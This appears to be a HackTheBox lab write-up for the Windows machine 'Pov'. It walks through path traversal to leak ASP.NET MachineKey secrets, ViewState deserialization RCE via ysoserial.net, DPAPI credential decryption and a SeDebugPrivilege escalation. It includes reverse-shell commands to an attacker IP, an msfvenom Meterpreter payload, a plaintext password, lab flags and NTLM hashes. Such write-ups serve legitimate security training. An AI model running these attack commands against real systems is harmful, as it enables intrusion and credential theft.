




**Target:** dev.pov.htb  
**IP:** 10.129.230.183  
**OS:** Windows Server 2019  
**Date:** 2026-05-06  
**Difficulty:** Medium  
**Platform:** HackTheBox

## Executive Summary

A penetration test was conducted against the POV Windows machine. Starting from an unauthenticated position, full system compromise was achieved through a chain of three vulnerabilities.The web application hosted on `dev.pov.htb` exposed a Local File Inclusion (LFI) vulnerability in the file download parameter, allowing retrieval of the `web.config` file containing ASP.NET `MachineKey` secrets. These secrets were used to forge a malicious `__VIEWSTATE` payload leveraging **ASP.NET deserialization (RCE)** via `ysoserial.net`, gaining a reverse shell as `pov\sfitz`. Lateral movement to `alaading` was achieved by decrypting a DPAPI-protected credential file. Finally, privilege escalation to `NT AUTHORITY\SYSTEM` was achieved by abusing `SeDebugPrivilege` to impersonate the `winlogon.exe` process .
## Initial Enumeration
### Nmap Scan

```bash
nmap -p- --min-rate 5000 -T4 -Pn -n 10.129.6.12

PORT   STATE SERVICE
80/tcp open  http
```


```bash
sudo nmap  10.129.6.12 -p80 -Pn -A -vv -T4
PORT   STATE    SERVICE REASON      VERSION
80/tcp filtered http    no-response
Too many fingerprints match this host to give specific OS details
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=2/14%OT=%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6990B923%P=x86_64-pc-linux-gnu)
SEQ(II=I)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

```

> Only port 80 is exposed externally. The firewall blocks all other inbound and outbound connections explaining why WinRM and reverse shells were difficult to establish.

```bash
sudo nmap -sC -sV -Pn -p 80 10.129.6.12
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-14 18:05 +0000
Nmap scan report for 10.129.6.12
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.73 seconds
```

### Dir Enumeration

```bash
gobuster dir -u http://10.129.6.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html -o gobuster.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.6.12
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 12330]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 400) [Size: 3420]
img                  (Status: 301) [Size: 146] [--> http://10.129.6.12/img/]
css                  (Status: 301) [Size: 146] [--> http://10.129.6.12/css/]
Index.html           (Status: 200) [Size: 12330]
js                   (Status: 301) [Size: 145] [--> http://10.129.6.12/js/]
IMG                  (Status: 301) [Size: 146] [--> http://10.129.6.12/IMG/]
INDEX.html           (Status: 200) [Size: 12330]
*checkout*           (Status: 400) [Size: 3420]
CSS                  (Status: 301) [Size: 146] [--> http://10.129.6.12/CSS/]
Img                  (Status: 301) [Size: 146] [--> http://10.129.6.12/Img/]
JS                   (Status: 301) [Size: 145] [--> http://10.129.6.12/JS/]
*docroot*            (Status: 400) [Size: 3420]
*                    (Status: 400) [Size: 3420]
devinmoore*          (Status: 400) [Size: 3420]
200109*              (Status: 400) [Size: 3420]
*sa_                 (Status: 400) [Size: 3420]
*dc_                 (Status: 400) [Size: 3420]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

#### Subdomain
The subdomain `dev.pov.htb` was discovered from the **Contact Us** page of the main website, which referenced `dev.pov.htb` and leaked a potential username `sfitz`


subdomain is revealed from the contact us form from the website


From the newly discovered subdomain , Mostly the website is static except the download functionality from the home section lets inspect it using Burpsuite

### Web Application Analysis  dev.pov.htb


```http
POST /portfolio/ HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 367
Origin: http://dev.pov.htb
Connection: keep-alive
Referer: http://dev.pov.htb/portfolio/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=XLPEs5ve6zmGFkSxpWkjTUSU08TD46f7y0H5H5QG%2BEIoOFTC5tkLF7MsWR48omVeW9%2BPXOMlEhX6PlyDUVOX%2BTOMua0%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=5FG4OzuqE5BSPMbilfwAmuaiTgE5CB85CkjN0S5bTS5iJa6XFPD8BMl6fvgwSsWMzg8EoZ6as%2B2AQJrJYSFalF5DrC7xiOABa0%2B%2BYq9fCbK%2Fqzp5YrRV3Cv%2FPh%2BUns%2FJ3zp6Ng%3D%3D&file=cv.pdf
```
This HTTP POST request represents a user interacting with a web page specifically one built using the **ASP.NET Web Forms** framework to download a file.

| **Parameter**              | **Purpose**                                                                                                                           |
| -------------------------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| **`__VIEWSTATE`**          | A serialized (Base64 encoded) block of data that preserves the state of the page (                                                    |
| **`__VIEWSTATEGENERATOR`** | A short ID used by the server to ensure the ViewState was generated by the correct page.                                              |
| **`__EVENTVALIDATION`**    | A security measure to ensure that the input coming from the user was actually an option available on the page (to prevent tampering). |
Lets try some basic file inclusion so we can test weather the server might be taking filename string and blindly plugging it into file path on the backened



We got an hit here lets see why did i choose this payload


The application's verbose error handling in the `aspxerrorpath` parameter disclosed the internal directory structure (`/portfolio/`), providing the necessary context to calibrate the Path Traversal depth required to reach the root `web.config` file.


## Foothold  ASP.NET ViewState Deserialization (RCE)

### Vulnerability Description

ASP.NET WebForms uses the `__VIEWSTATE` parameter to preserve page state across requests. When the server's **MachineKey** is known, an attacker can forge a malicious ViewState payload that, upon deserialization, executes arbitrary code on the server.

The target runs **.NET Framework 4.5** with `targetFramework="4.5"`, confirming it is vulnerable


```bash
echo wine ysoserial.exe -p ViewState -g WindowsIdentity --decryption="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB --snip
```

Shell obtained as `pov\sfitz`

```Powershell
PS C:\windows\system32\inetsrv> whoami
pov\sfitz
PS C:\windows\system32\inetsrv> 
```

### Credential Discovery

Enumerating `sfitz`'s home directory revealed a DPAPI-encrypted credential file:
### Decrypting DPAPI Credentials

Since the process is running as `sfitz`, the DPAPI master key is accessible  the credential can be decrypted natively:

```bash
PS C:\Users\sfitz\Documents> $credential = Import-CliXml -Path C:\Users\sfitz\Documents\connection.xml

PS C:\Users\sfitz\Documents> PS C:\Users\sfitz\Documents> $credential.GetNetworkCredential().Password

```

Credentials obtained  `f8gQ8fynP44ek1m3 : alaading`

### Shell as alaading

```Powershell
PS C:\Users\sfitz\Documents> PS C:\Users\sfitz\Documents> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       888
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       484
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1028
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1452
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       636

```

WinRM (port 5985) is open internally but blocked inbound by the firewall. Used `RunasCs.exe` to execute a reverse shell as `alaading` from within the machine

 Execute reverse shell as alaading
```Powershell
PS C:\Users\sfitz\Documents> Get-ChildItem C:\ -Directory | Where-Object { $_.FullName -notlike "*Windows*" } | ForEach-Object { $path = $_.FullName; try { [System.IO.File]::Create("$path\test.txt").Close(); Write-Output "Writable: $path"; Remove-Item "$path\test.txt" } catch {} }
Writable: C:\Microsoft

```

`Terminal 1`
```bash
rlwrap nc -lvnp 5555
```

`Terminal 2`
```
RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell.exe -r 10.10.16.99:5555
```

Bingo Shell has been pawned !! and captuerd the user flag

```Powershell
PS C:\Windows\system32> whoami
whoami
pov\alaading
PS C:\Windows\system32> 
```

## Priv Escalation - SeDebugPrivilege Abuse

```PowerShell
795202e43366643d32bb86c3f4ec1cb5
PS C:\Users\alaading\Desktop> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

So we have SeDebugPrivilege which grantes us the abiltity to interact and debug with any process including system owned files

I tried to grab hash of the administrator from the lssas dump however it dosnt reveal anything so lets try to find any escalated process running on windows which can be hijacked

```Powershell
PS C:\Microsoft> Get-Process | Where-Object {$_.SI -eq 0}
Get-Process | Where-Object {$_.SI -eq 1}

```


### Meterpreter Migration


Generate payload

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Pov]
└─$ msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.10.16.99 LPORT=80 -f exe -o rev.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 697 bytes
Final size of exe file: 7680 bytes
Saved as: rev.exe
```

Start handler
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Pov]
└─$ msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_http; set LHOST 10.10.16.99; set LPORT 80; run"
```

Upload and execute on target
```Powershell
PS C:\Microsoft> .\rev.exe
PS C:\Microsoft> 
```

Migrating the Meterpreter session into `winlogon.exe` (PID 552), a privileged process running as `NT AUTHORITY\SYSTEM`, to inherit its security context

```bash
migrate 552

[*] Meterpreter session 1 opened (10.10.16.99:80 -> 10.129.230.183:49690) at 2026-05-06 04:23:41 +0100

meterpreter > 
meterpreter > migrate 552
[*] Migrating from 4028 to 552...
shell

whoami[*] Migration completed successfully.
meterpreter > 
meterpreter > shell
Process 2716 created.
Channel 1 created.

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

type C:\Users\Administrator\Desktop\root.txt
a80e74f548ffdf7d49ab4201102c1fc0

C:\Windows\system32>
C:\Windows\system32>
```

## Post-Exploitation

Credentials Dumped (Mimikatz)

|Account|NTLM Hash|
|---|---|
|`alaading`|`31c0583909b8349cbe92961f9dfa5dbf`|
|`sfitz`|`012e5ed95e8745ea5180f81648b6ec94`|

## Attack Chain Summary

```
[IIS Web Server - dev.pov.htb]
    └─> Download CV button → POST /portfolio/
        └─> file= parameter → Path Traversal (LFI)
            └─> ....//web.config → MachineKey leaked
                └─> decryptionKey + validationKey extracted

[ASP.NET ViewState Deserialization]
    └─> ysoserial.net (WindowsIdentity gadget)
        └─> Malicious __VIEWSTATE → RCE
            └─> Reverse shell as pov\sfitz

[Lateral Movement]
    └─> C:\Users\sfitz\Documents\connection.xml
        └─> DPAPI encrypted credential
            └─> Import-CliXml → f8gQ8fynP44ek1m3
                └─> RunasCs.exe → shell as pov\alaading
                    └─> user.txt captured

[Privilege Escalation]
    └─> whoami /priv → SeDebugPrivilege Enabled
        └─> psgetsys.ps1 + winlogon PID 552
            └─> ImpersonateFromParentPid → SYSTEM
                └─> Meterpreter migrate → NT AUTHORITY\SYSTEM
                    └─> root.txt captured
```

## References

- [Deep Dive into .NET ViewState Deserialization — Swapneil Dash](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
- [ysoserial.net — pwntester](https://github.com/pwntester/ysoserial.net)
- [Exploiting ViewState Parameter — HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter)
- [SeDebugPrivilege Abuse — HackFast](https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeDebugPrivilege/)
- [psgetsystem — decoder-it](https://github.com/decoder-it/psgetsystem)
- [RunasCs — antonioCoco](https://github.com/antonioCoco/RunasCs)
- [If you grant SeDebugPrivilege — Microsoft DevBlogs](https://devblogs.microsoft.com/oldnewthing/20080314-00/?p=23113)

